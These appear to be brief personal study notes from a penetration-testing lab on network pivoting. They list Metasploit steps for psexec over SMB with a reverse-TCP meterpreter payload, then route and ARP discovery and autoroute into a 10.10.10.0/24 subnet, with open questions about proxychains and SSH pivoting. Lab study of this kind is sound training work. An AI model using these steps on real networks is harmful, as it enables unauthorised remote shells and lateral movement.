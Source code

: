 Pivoting Lab

* use exploit/windows/smb/psexec
	* set the rhost, smbdomain, smbuser
	* set payload to windows/x64/meterpreter/reverse_tcp
	* run route print once you get a shell
	* arp -a 
		* see the machines that it is talking to 
		* we also see a 129 how do we pivot to it?
* run autoroute -s 10.10.10.0/24 from meterpreter
**LOOK INTO THIS MORE**
	* proxychains 
	* ssh pivoting 